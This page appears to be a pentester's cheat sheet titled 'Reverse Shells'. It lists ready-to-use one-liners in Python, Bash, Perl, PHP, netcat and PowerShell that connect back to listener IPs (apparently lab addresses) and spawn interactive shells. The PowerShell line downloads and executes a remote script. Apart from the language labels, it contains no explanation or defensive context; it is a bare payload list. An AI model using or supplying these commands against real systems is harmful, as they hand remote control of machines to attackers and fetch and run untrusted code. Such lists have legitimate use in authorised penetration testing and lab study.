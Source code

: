 ```yaml
---
title: "Reverse Shells"
---
```


Python:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace;  width: 500px; overflow-x: auto;">
  <code>python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.45.218",80));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' </code>
</div>

Bash:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace;">
  <code>bash -i >& /dev/tcp/10.0.0.1/8080 0>&1 </code>
  <code>bash -c "bash -i >& /dev/tcp/192.168.45.183/443 0>&1" </code>
</div>


Perl:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code>perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};' </code>
</div>

PHP:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code><?php $sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3"); ?> </code>
  <code><?php $sock=fsockopen("192.168.45.218",80);exec("/bin/sh -i <&3 >&3 2>&3"); ?> </code>
</div>

Netcat:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code>nc -e /bin/sh 10.0.0.1 1234 </code>
  <code>rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.45.218 1234 >/tmp/f </code>
</div>

Powershell:
<div style="background-color: #f5f5f5; border: 1px solid #ccc; padding: 10px; margin-bottom: 10px; display: inline-block; font-family: 'Courier New', Courier, monospace; width: 300px; overflow-x: auto;">
  <code>powershell -c "iex(new-object net.webclient).downloadstring(\"http://192.168.45.235:1337/Invoke-PowerShellTcp.ps1\")" </code>
</div>
